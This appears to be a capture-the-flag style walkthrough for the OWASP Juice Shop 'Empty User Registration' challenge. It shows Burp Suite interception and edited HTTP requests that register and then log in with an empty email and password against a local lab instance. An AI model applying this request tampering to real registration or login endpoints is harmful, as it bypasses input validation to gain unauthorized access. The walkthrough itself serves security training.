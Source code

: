 # Empty User Registration

***2 Star Challenge 4/23***

Register a user with an empty email and password.

---

- Burpsuite

1. Open the tool `burpsuite`, go to Proxy and start the Browser with the **Juice Shop**.

2. Navigate to **Login** and enter [Not yet a customer?](http://localhost:3000/#/register).

3. Fill out the Register from with fake data. 

4. Bevor you submit the form, switch into `burpsuite` and start **"Intercept on"** .

5. Submit the form with click on "Register". 

6. Forward the request an take a look into it.

`````bash
POST /api/Users/ HTTP/1.1
Host: 127.0.0.1:3000
Content-Length: 254
Accept-Language: de-DE,de;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Origin: http://192.168.178.33:3000
Referer: http://192.168.178.33:3000/
Accept-Encoding: gzip, deflate, br
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=YBJ6403etotycMfmH1ouNBtJRImnu6NILEFEPt7YfYqF4buNVIWkuqXd13j5
Connection: keep-alive

{
  "email":"jonny23@gmail.com",
  "password":"jonny",
  "passwordRepeat":"jonny",
  "securityQuestion":{
    "id":3,
    "question":"Mother's birth date? (MM/DD/YY)",
    "createdAt":"2025-07-17T12:44:54.599Z",
    "updatedAt":"2025-07-17T12:44:54.599Z"
  },
"securityAnswer":"02.22.1922"
}
`````

7. Manipulate the request data, edit the value of "email", "pwassword" and "passwordRepeat" to an empty string.


`````bash
POST /api/Users/ HTTP/1.1
Host: 127.0.0.1:3000
Content-Length: 254
Accept-Language: de-DE,de;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Origin: http://192.168.178.33:3000
Referer: http://192.168.178.33:3000/
Accept-Encoding: gzip, deflate, br
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=YBJ6403etotycMfmH1ouNBtJRImnu6NILEFEPt7YfYqF4buNVIWkuqXd13j5
Connection: keep-alive

{
  "email":"",             <-- delete value
  "password":"",          <-- delete value
  "passwordRepeat":"",    <-- delete value
  "securityQuestion":{
    "id":3,
    "question":"Mother's birth date? (MM/DD/YY)",
    "createdAt":"2025-07-17T12:44:54.599Z",
    "updatedAt":"2025-07-17T12:44:54.599Z"
  },
"securityAnswer":"02.22.1922"
}
`````
8. Forward the request again and go back to the **Juice Shop** page.


:::success Challenge completed!
You successfully solved a challenge: Empty User Registration (Register a user with an empty email and password.)
:::

---

To Login with this "Empty User" Account.

Repeat the steps. 

1. Go to Login page.

2. Enter some random values.

3. Start **Intercept on** in your `burpsuite`.
4. Submit the Login form.
5. Forword your Proxy
6. Remove the values in the request.

````bash
POST /rest/user/login HTTP/1.1
Host: 192.168.178.33:3000
Content-Length: 34
Accept-Language: de-DE,de;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (X11; linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Origin: http://192.168.178.33:3000
Referer: http://192.168.178.33:3000/
Accept-Encoding: gzip, deflate, br
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; continueCode=YBJ6403etotycMfmH1ouNBtJRImnu6NILEFEPt7YfYqF4buNVIWkuqXd13j5
Connection: keep-alive

{
  "email":"asdf",       <--- Remove
  "password":"asdf"     <--- Remove
}
````
7. Forward again.
8. Now your are logged in as "" user.